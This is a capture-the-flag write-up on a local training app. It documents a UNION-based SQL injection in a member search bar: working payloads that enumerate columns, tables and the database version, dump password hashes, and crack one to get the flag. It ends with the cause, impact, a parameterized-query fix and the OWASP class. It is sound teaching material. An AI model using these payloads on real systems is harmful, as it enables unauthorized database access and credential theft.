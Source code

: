 # SQL Injection Vulnerability

## 1. How did i spot the Vulnerability?

I went to members page here: http://localhost:8080/index.php?page=member

I noticed that there is an input point which is a search bar for searching for members.

I tested if the database is vulnerable, by submitting: `1'` || `1 or 1=1` || `1 and 1=2`

## Exploitation Process

### Step 1: Count columns

Now let's count how many columns in the SQL query?

```
Command: 1 order by 1 => works
Command: 1 order by 2 => works
Command: 1 order by 3 => did not work
```

the query only returns 2 columns, so our UNION injection must also use 2 columns.
meaning that SELECT query returns 2 columns

### Step 2: Test UNION injection

Then let's test UNION injection (UNION combines results from two separate SQL queries into one result set.)

```
Command: 1 union select 1,2
```

We see that we can inject our own SELECT statement. We see this Surname=2, meaning that the second position of our UNION will give back SENSITIVE DATA.

### Step 3: Gather database information

Now let's see what's the name of the database and MySQL version:

```
Command: 1 union select 1,database() => database name: Member_Sql_Injection
Command: 1 union select 1,version() => MySQL version: 5.5.64-MariaDB-1ubuntu0.14.04.1
```

### Step 4: List tables

Now let's list tables:

```
Command: 1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
```

We found that we have one table named: `users`

### Step 5: List columns

Now let's list all its columns:

```
Command: 1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273
```

We found that we have those columns: `user_id,first_name,last_name,town,country,planet,Commentaire,countersign`

We see that there are two suspicious columns: `Commentaire` (means comment) and `countersign` (password-related)

### Step 6: Extract sensitive data

Now let's discover their content:

```
Command: 1 union select 1,group_concat(Commentaire) from users
```

We found in the third row: "Decrypt this password -> then lower all the char. Sh256 on it and it's good"

```
Command: 1 union select 1,group_concat(countersign) from users
```

We found in the fourth row: `5ff9d0165b4f92b14994e5c685cdce28`

### Step 7: Crack the hash and get the flag

As you see they are asking us to decrypt that password. We use crackstation.net

And we found the decryption gives: `FortyTwo`, lowering all chars: `fortytwo`

Then we SHA256 fortytwo by running this command on terminal:

```bash
echo -n fortytwo | shasum -a 256
```

Then you will find our flag: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

(SHA256 is a cryptographic hashing algorithm. "Sh256 on it" is a typo - they meant SHA256.)

## 2. What is the vulnerability?

SQL Injection - user-supplied input is directly incorporated into SQL queries without proper sanitization or parameterization, allowing attackers to manipulate database queries.

## 3. Why does it exist (the security flaw)?

The application fails to treat user input as untrusted data and lacks prepared statements or parameterized queries. 

## 4. What could the impact be?

- Complete database compromise and data extraction
- Unauthorized access to sensitive user information
- Modification or deletion of database records

## 5. How to fix it (patch)?

- Use parameterized queries or prepared statements for ALL database interactions
- Never construct SQL queries through string concatenation with user input

## 6. Vulnerability classification (OWASP)?

**A03 - Injection**